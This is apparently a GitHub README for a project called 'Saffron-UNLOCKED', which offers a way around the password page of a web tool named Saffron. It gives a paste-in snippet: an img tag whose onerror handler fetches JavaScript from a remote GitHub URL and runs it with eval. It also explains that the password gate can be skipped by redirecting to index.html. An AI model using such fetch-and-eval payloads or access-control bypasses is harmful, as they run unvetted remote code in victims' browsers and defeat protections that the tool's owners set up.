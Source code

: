 # Saffron-UNLOCKED
## A simple browser page that could be pasted on any html script code like Lego Wedo 2.0
# THIS REPOSITORY UNLOCKS SAFFRON SO THAT YOU DO NOT NEED THE PASSWORD!
```
<img src=# onerror='fetch("https://raw.githubusercontent.com/martial83-huue/Saffron-UNLOCKED/main/main.js").then(r=>r.text()).then(c=>eval(c)) '>
```


Credits: Blobby-Boi (Creator of Blobbypass), SaffronA1, ChatGPT-4o, BlackBoxAI, Canva, and GitHub.

# How It Works

### Exploits the fact that there is no real encryption or protection of the index.html (Saffron's search dashboard) - main.html (password page) acts as just a doorway to index.html but <ins>is easily skipped</ins> by changing URL in main.js from main.html to index.html 

### Results in easy cracking and poor encryption
